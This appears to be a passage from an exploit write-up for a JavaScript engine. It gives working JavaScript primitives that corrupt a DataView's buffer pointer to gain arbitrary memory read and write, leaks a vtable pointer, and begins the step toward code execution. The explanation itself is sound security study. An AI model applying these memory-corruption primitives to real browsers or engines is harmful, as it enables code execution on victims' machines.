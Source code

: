 ## Arbitrary address read and write

Here we set `dv1->buffer` to any address that we need

```javascript
    let read64 = function(addr_lo, addr_hi) {
        // dv2->buffer = addr (Step 4)
        // chqmatteo: 0x38 = 7 * 8, we are writing at ((void*)dv1->buffer)[7] which is dv2->buffer
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);

        // read from addr (Step 5)
        return dv2.getInt32(0, true) + dv2.getInt32(4, true) * BASE;
    }
    let read3232 = function(addr_lo, addr_hi) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);

        // read from addr (Step 5)
        return [dv2.getInt32(0, true), dv2.getInt32(4, true)];
    }

    let write64 = function(addr_lo, addr_hi, value_lo, value_hi) {
        // dv2->buffer = addr (Step 4)
        dv1.setUint32(0x38, addr_lo, true);
        dv1.setUint32(0x3C, addr_hi, true);

        // write to addr (Step 5)
        dv2.setInt32(0, value_lo, true);
        dv2.setInt32(4, value_hi, true);
    }

    // chqmatteo: the first value of the object is the pointer to the vtable
    vtable_lo = dv1.getUint32(0, true);
    vtable_hi = dv1.getUint32(4, true);
    print(hex(vtable_lo + vtable_hi * BASE));

    // chqmatteo: demonstrate arbitrary read
    print(hex(read64(vtable_lo, vtable_hi)));
```

This is basically where Perception Point blog post ends

## Code execution

Now we can:

1. read and write any address we want using from `dv2`
2. plus we can read and write everything in the metadata of `dv2` using `dv1`.

One thing that is useful from the metadata of `dv2` is the `vtable` pointer.
